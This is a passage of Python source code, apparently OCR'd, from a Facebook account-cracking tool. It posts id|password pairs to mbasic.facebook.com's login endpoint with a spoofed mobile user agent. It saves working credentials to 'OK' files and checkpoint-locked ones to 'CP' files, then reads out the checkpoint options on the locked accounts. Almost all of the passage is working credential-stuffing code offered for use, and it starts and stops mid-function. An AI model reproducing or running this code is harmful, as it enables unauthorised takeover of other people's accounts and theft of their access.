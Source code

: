 				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')
				os.system('espeak -a 300 " TARAK,  Ok,  id"')
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def ceker(idf,pw):
	global cp
	ua = 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.128 Safari/537.36 FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.services;FBDV/EVR-L29;FBSV/10;FBLR/0;FBBK/1;FBCA/arm64-v8a:;]'
	head = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
	ses = requests.Session()
	try:
		hi = ses.get('https://mbasic.facebook.com')
		ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')
		jo = ho.find('form')
		data = {}
		lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
		for anj in jo('input'):
			if anj.get('name') in lion:
				data.update({anj.get('name'):anj.get('value')})
		kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
		opsi = kent.find_all('option')
		if len(opsi)==0:
			print('\r%s---> Tap Yes / A2F (Check  Login Id Lite/Mbasic%s)'%(hh,x))
		else:
			for opsii in opsi:
				print('\r%s---> %s%s'%(kk,opsii.text,x))
	except Exception as c:
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		print('\r%s---> Cannot Check Options (Check Login In Lite/Basic)%s'%(u,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
def cek_opsi():
	c = len(akun)
	hu = '#'%(c)
	cetak(nel(hu, title='CEK OPSI'))
	input(u+'['+h+'â€¢'+u+'] INPUT')
	cek = '# PROSESES CO'
	sol().print(mark(cek, style='green'))
	love = 0
	for kes in akun:
		try:
			try:
				id,pw = kes.split('|')[0],kes.split('|')[1]
			except IndexError:
				time.sleep(2)
				print('\r%s++++ %s ERROR=-     %s'%(b,kes,x))
				print('\r%s---> Separator Not Supported For This Program%s'%(u,x))
